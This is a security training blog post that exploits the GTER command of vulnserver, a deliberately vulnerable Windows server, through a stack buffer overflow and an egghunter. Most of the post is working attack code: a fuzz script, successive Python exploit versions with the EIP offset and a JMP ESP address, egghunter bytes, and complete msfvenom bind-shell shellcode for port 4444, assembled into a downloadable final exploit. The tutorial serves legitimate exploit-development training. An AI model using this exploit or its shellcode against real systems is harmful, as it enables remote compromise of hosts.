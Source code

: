 :slug: vulnserver-gter/
:date: 2020-06-11
:category: attacks
:subtitle: Hunting eggs
:tags: osce, vulnserver, training, exploit
:image: cover.png
:alt: Photo by Pel on Unsplash
:description: This post will describe the steps taken to exploit the Vulnserver GTER command. using a technique called 'Egghunting'.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/DxD3LvfanuM

= Vulnserver GTER Exploitation

As we saw in the link:../vulnserver-trun/[previous post],
vulnserver is a `VbD` (Vulnerable-by-Design) application
designed to help you sharpen the Windows exploitation skills.

Our link:../vulnserver-trun/[previous post] described the exploitation
of `TRUN` command using a simple `EIP` overwrite technique, as we had
virtually no constraints for our payload. However, exploiting the
`GTER` command will not be as straightforward.

WARNING: Do NOT run `vulnserver.exe` on a sensitive machine
or a non-secure network.
It will be a backdoor that may be used by others to break into your system.

== Enumerating Vulnserver

If you launch `vulnserver.exe` with no options,
the default port used will be *TCP/9999*.

image::vulnserver1.png[vulnserver]

We can check the behavior of the `GTER` command by issuing the suggested
syntax.

image::gter1.png[GTER command syntax]

Ok, it's fuzz time.

== Fuzzing GTER

As we did before with the `TRUN` command,
we now know the syntax needed for the `GTER` command.
And again, we'll be using link:https://github.com/guilhermeferreira/spikepp[Spike]
to help us with our fuzzing.

As `GTER` uses a similar syntax to the `TRUN` command,
we can reuse the Spike script created in our previous post
and just change the command.

.gter.spk
[source,c]
----
s_string("GTER ");
s_string_variable("*");
----
Remember that the `s_string` command will send an immutable string to
the fuzzed protocol, and `s_string_variable` tells `Spike` to use
that string as a fuzz point.

Now we can send the fuzz attack to the victim machine:

image::fuzz1.gif[Running spike]

Ugh! After a few iterations, `vulnserver.exe` crashed, and it seems
that it happened when we sent 5060 bytes of data.
Let's check the offending payload on `Wireshark`:

image::wireshark1.png[Wireshark capture]

We can now create a `PoC` (Proof-of-Concept) file with that information:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.29'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'A' * 5060
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

This time, we'll attach `vulnserver.exe` to Immunity Debugger.

Let's run the initial exploit and see what happens:

image::gter2.gif[Exploit: take 1]

Look at that! We replicated the crash!

image::crash1.png[Controlling EIP]

Look at the state of the application at the moment of the crash.
The first thing to notice is that the `EIP` register has the value `41414141`,
which means that we effectively overwrote it with our buffer of `A`.
That's good news. However, if you see in the stack window (bottom right),
we only have 20 bytes after the `ESP` pointer, so if we do a `JMP ESP`,
we will only have 20 bytes for working.
That's not enough space for anything complex.

However, if we look at the dump window (bottom left), we have a broader
space (around 0x90 or 144 bytes) at the beginning of our buffer, which
is again not enough for something like a reverse shell, so, we need to
be creative here. Actually, we can fit a reverse shell in that space,
but we need to carve it manually by reusing already loaded `WinSock`
modules of `vulnserver`, but that technique is described in
link:../vulnserver-gter-no-egghunter/[post].

First things first:

We need to calculate the exact offset on which `EIP` gets overwritten.
To do that, we will use `pattern_create.rb` from `Metasploit` to create a
cyclic pattern.

.Running pattern_create.rb
[source,console]
----
# This will only work on Kali Linux
$ msf-pattern_create -l 400
----

image::pattern1.png[Cyclic pattern]

We need now to update the exploit with that pattern:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.29'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'<paste pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

And we run the exploit again:

image::offset1.png[Exploit: take 2]

This time, `EIP` has the value `41396541`.
Let's check the offset on our cyclic pattern:

.Running pattern_offset.rb
[source,console]
----
# This will only work on Kali Linux
$ msf-pattern_offset -q 41396541
[*] Exact match at offset 147
----

Great, that tells us that the `EIP` gets overwritten starting on the *147*
byte of our buffer. Update the exploit to check the offset:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.29'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'A' * 147 +
    b'B' * 4 +
    b'C' * (400 - 147 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

Now run the exploit. If `EIP` gets the value `42424242`,
which are the four bytes of our `B` buffer, we got it right:

image::offset2.png[Correct offset to EIP]

Whoohooo! Now we can start exploiting this.

== Exploiting

If we check the state of the application after the crash, we can see that
we can jump to `ESP` to gain control of the execution flow.

We can use `mona.py` plugin to find that instruction:

.mona looking for JMP ESP
[source,console]
----
! mona jmp -r esp -o -cp nonull
----

This will tell `mona` to look for the instruction `JMP ESP`
and will exclude `DLL` from the `OS`.

image::mona1.png[JMP ESP]

We will pick the `JMP ESP` instruction at `625011C7`.
Now we can proceed to update the exploit and replace the four `B`
with that address:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'A' * 147 +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    b'C' * (400 - 147 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

Let's verify this:

image::jmp1.gif[Performing the JMP ESP]

Great!

But since everything can't be so glorious,
we landed on our `C` buffer, which contains 20 bytes.
We need to move to the `A` buffer,
which holds around 144 bytes to work.

== Jump around

To get around this space constraint,
we need to jump to our bigger buffer.

For jumping, we can use the unconditional jump instruction found in
X86 architecture called `JMP` that will divert the execution flow
to the desired address. We also need to know where to jump.

Now look at the next image,
which is the resulting location after our `JMP ESP` execution:

image::jmp1.png[Location of our execution flow]

As we can see, we are in the next instruction after the `JMP ESP`
at the address `00CBF9C8` (this is a stack address, so it will change
every time we run the application), and we see that we have only
20 bytes to work.

If we scroll up,
we can see that the buffer of `A` starts at `00CBF931`:

image::jmp2.png[Start of buffer]

So we need to do a relative jump backward. Using the debugger, we can
easily calculate the offset:

image::jmp3.gif[Relative backward jump]

As you can see, the resulting bytes are `E9 64 FF FF FF`.
Let's update our exploit with that jump:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'A' * 147 +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

And check the result:

image::jmp4.gif[Jumped back]

Great! We were able to jump to the start of our buffer.
But what now? On 147 bytes, it's hard to include a working reverse shell.
However, there's a trick we can use that will have to do with eggs.

== Egghunter

An `egghunter` is a little shellcode (commonly around 32 bytes)
that can be injected on our payload.
It's a special shellcode because it will not execute just anything
but will search the entire memory for the location of the desired code,
and once it finds it, it will execute it.

But how will it know what to execute? It will look for a tag that
will be prepended to our shellcode, also called the `egg`, and once
it finds that `egg`, it will execute any code that follows.

First, we need to create our egghunter shellcode:

.Creating egghunter
[source,console]
----
$ msf-egghunter -e w00t -f python -v EGGHUNTER
EGGHUNTER =  b""
EGGHUNTER += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
EGGHUNTER += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74"
EGGHUNTER += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
----

Note that the configured egg is `w00t`. However, to make the
searching more effective, that egghunter was designed to look for
a double instance of that egg, which means `w00tw00t`.
This will guarantee that the executed code is the one we injected and will
avoid false positives.

Let's update our exploit:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

EGGHUNTER =  b""
EGGHUNTER += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
EGGHUNTER += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74"
EGGHUNTER += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

PAYLOAD = (
    b'GTER /.:/' +
    EGGHUNTER +
    b'A' * (147 - len(EGGHUNTER)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
----

What will happen is the following:

. Our buffer will be injected.
. The `JMP ESP` will be executed.
. The backward jump will be executed
and land directly to our egghunter.
. The egghunter will iterate through all the memory
looking for the egg `w00tw00t`.
. When the egghunter finds the egg,
it will execute anything that follows.

So, the only thing that's missing is our shellcode. We will create one
that will bind a shell on port `4444`:


.Creating shellcode
[source,console]
----
$ msfvenom -p windows/shell_bind_tcp RPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 355 (iteration=0)
x86/shikata_ga_nai chosen with final size 355
Payload size: 355 bytes
Final size of python file: 1823 bytes
SHELL =  b""
SHELL += b"\xdb\xda\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x53\xb8"
SHELL += b"\x02\xdd\x89\x3a\x31\x42\x17\x03\x42\x17\x83\xe8"
SHELL += b"\x21\x6b\xcf\x10\x31\xee\x30\xe8\xc2\x8f\xb9\x0d"
SHELL += b"\xf3\x8f\xde\x46\xa4\x3f\x94\x0a\x49\xcb\xf8\xbe"
SHELL += b"\xda\xb9\xd4\xb1\x6b\x77\x03\xfc\x6c\x24\x77\x9f"
SHELL += b"\xee\x37\xa4\x7f\xce\xf7\xb9\x7e\x17\xe5\x30\xd2"
SHELL += b"\xc0\x61\xe6\xc2\x65\x3f\x3b\x69\x35\xd1\x3b\x8e"
SHELL += b"\x8e\xd0\x6a\x01\x84\x8a\xac\xa0\x49\xa7\xe4\xba"
SHELL += b"\x8e\x82\xbf\x31\x64\x78\x3e\x93\xb4\x81\xed\xda"
SHELL += b"\x78\x70\xef\x1b\xbe\x6b\x9a\x55\xbc\x16\x9d\xa2"
SHELL += b"\xbe\xcc\x28\x30\x18\x86\x8b\x9c\x98\x4b\x4d\x57"
SHELL += b"\x96\x20\x19\x3f\xbb\xb7\xce\x34\xc7\x3c\xf1\x9a"
SHELL += b"\x41\x06\xd6\x3e\x09\xdc\x77\x67\xf7\xb3\x88\x77"
SHELL += b"\x58\x6b\x2d\xfc\x75\x78\x5c\x5f\x12\x4d\x6d\x5f"
SHELL += b"\xe2\xd9\xe6\x2c\xd0\x46\x5d\xba\x58\x0e\x7b\x3d"
SHELL += b"\x9e\x25\x3b\xd1\x61\xc6\x3c\xf8\xa5\x92\x6c\x92"
SHELL += b"\x0c\x9b\xe6\x62\xb0\x4e\x92\x6a\x17\x21\x81\x97"
SHELL += b"\xe7\x91\x05\x37\x80\xfb\x89\x68\xb0\x03\x40\x01"
SHELL += b"\x59\xfe\x6b\x3c\xc6\x77\x8d\x54\xe6\xd1\x05\xc0"
SHELL += b"\xc4\x05\x9e\x77\x36\x6c\xb6\x1f\x7f\x66\x01\x20"
SHELL += b"\x80\xac\x25\xb6\x0b\xa3\xf1\xa7\x0b\xee\x51\xb0"
SHELL += b"\x9c\x64\x30\xf3\x3d\x78\x19\x63\xdd\xeb\xc6\x73"
SHELL += b"\xa8\x17\x51\x24\xfd\xe6\xa8\xa0\x13\x50\x03\xd6"
SHELL += b"\xe9\x04\x6c\x52\x36\xf5\x73\x5b\xbb\x41\x50\x4b"
SHELL += b"\x05\x49\xdc\x3f\xd9\x1c\x8a\xe9\x9f\xf6\x7c\x43"
SHELL += b"\x76\xa4\xd6\x03\x0f\x86\xe8\x55\x10\xc3\x9e\xb9"
SHELL += b"\xa1\xba\xe6\xc6\x0e\x2b\xef\xbf\x72\xcb\x10\x6a"
SHELL += b"\x37\xeb\xf2\xbe\x42\x84\xaa\x2b\xef\xc9\x4c\x86"
SHELL += b"\x2c\xf4\xce\x22\xcd\x03\xce\x47\xc8\x48\x48\xb4"
SHELL += b"\xa0\xc1\x3d\xba\x17\xe1\x17"
----

But where can we fit it? This shellcode is 355 bytes long,
but we only have 140 bytes as much to work.

We have to think out of the box: `Vulnserver` is a server (really!), and it
will surely multiplex connections. Well, we can create a different connection
to send the shellcode over! This will store it on memory where our
egghunter will be able to find it.

We can now finish our exploit. Remember to prepend the `w00tw00t`
egg to the shellcode, or the egghunter won't be able to find it!

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

EGGHUNTER =  b""
EGGHUNTER += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
EGGHUNTER += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74"
EGGHUNTER += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

# msfvenom -p windows/shell_bind_tcp RPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00'
SHELL =  b"w00tw00t"      # The egghunter will look for this
SHELL += b"\xdb\xda\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x53\xb8"
SHELL += b"\x02\xdd\x89\x3a\x31\x42\x17\x03\x42\x17\x83\xe8"
SHELL += b"\x21\x6b\xcf\x10\x31\xee\x30\xe8\xc2\x8f\xb9\x0d"
SHELL += b"\xf3\x8f\xde\x46\xa4\x3f\x94\x0a\x49\xcb\xf8\xbe"
SHELL += b"\xda\xb9\xd4\xb1\x6b\x77\x03\xfc\x6c\x24\x77\x9f"
SHELL += b"\xee\x37\xa4\x7f\xce\xf7\xb9\x7e\x17\xe5\x30\xd2"
SHELL += b"\xc0\x61\xe6\xc2\x65\x3f\x3b\x69\x35\xd1\x3b\x8e"
SHELL += b"\x8e\xd0\x6a\x01\x84\x8a\xac\xa0\x49\xa7\xe4\xba"
SHELL += b"\x8e\x82\xbf\x31\x64\x78\x3e\x93\xb4\x81\xed\xda"
SHELL += b"\x78\x70\xef\x1b\xbe\x6b\x9a\x55\xbc\x16\x9d\xa2"
SHELL += b"\xbe\xcc\x28\x30\x18\x86\x8b\x9c\x98\x4b\x4d\x57"
SHELL += b"\x96\x20\x19\x3f\xbb\xb7\xce\x34\xc7\x3c\xf1\x9a"
SHELL += b"\x41\x06\xd6\x3e\x09\xdc\x77\x67\xf7\xb3\x88\x77"
SHELL += b"\x58\x6b\x2d\xfc\x75\x78\x5c\x5f\x12\x4d\x6d\x5f"
SHELL += b"\xe2\xd9\xe6\x2c\xd0\x46\x5d\xba\x58\x0e\x7b\x3d"
SHELL += b"\x9e\x25\x3b\xd1\x61\xc6\x3c\xf8\xa5\x92\x6c\x92"
SHELL += b"\x0c\x9b\xe6\x62\xb0\x4e\x92\x6a\x17\x21\x81\x97"
SHELL += b"\xe7\x91\x05\x37\x80\xfb\x89\x68\xb0\x03\x40\x01"
SHELL += b"\x59\xfe\x6b\x3c\xc6\x77\x8d\x54\xe6\xd1\x05\xc0"
SHELL += b"\xc4\x05\x9e\x77\x36\x6c\xb6\x1f\x7f\x66\x01\x20"
SHELL += b"\x80\xac\x25\xb6\x0b\xa3\xf1\xa7\x0b\xee\x51\xb0"
SHELL += b"\x9c\x64\x30\xf3\x3d\x78\x19\x63\xdd\xeb\xc6\x73"
SHELL += b"\xa8\x17\x51\x24\xfd\xe6\xa8\xa0\x13\x50\x03\xd6"
SHELL += b"\xe9\x04\x6c\x52\x36\xf5\x73\x5b\xbb\x41\x50\x4b"
SHELL += b"\x05\x49\xdc\x3f\xd9\x1c\x8a\xe9\x9f\xf6\x7c\x43"
SHELL += b"\x76\xa4\xd6\x03\x0f\x86\xe8\x55\x10\xc3\x9e\xb9"
SHELL += b"\xa1\xba\xe6\xc6\x0e\x2b\xef\xbf\x72\xcb\x10\x6a"
SHELL += b"\x37\xeb\xf2\xbe\x42\x84\xaa\x2b\xef\xc9\x4c\x86"
SHELL += b"\x2c\xf4\xce\x22\xcd\x03\xce\x47\xc8\x48\x48\xb4"
SHELL += b"\xa0\xc1\x3d\xba\x17\xe1\x17"


PAYLOAD = (
    b'GTER /.:/' +
    EGGHUNTER +
    b'A' * (147 - len(EGGHUNTER)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending first stage...')
    fd.sendall(PAYLOAD)
    print('Done.')

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending shellcode...')
    fd.sendall(SHELL)
    print('Boom! Check the port 4444 of the victim.')
----

Now, let's look the egghunter in action:

image::shell1.gif[Success]

Awesome! We got our shell again!

You can download the final exploit link:exploit.py[here]

== Conclusion

The egghunter technique is very useful when dealing with
short space for sending complex payloads. However, you
must be careful to inject the correct tag because it will
start using all the available CPU for searching the
egg on the entire system memory.
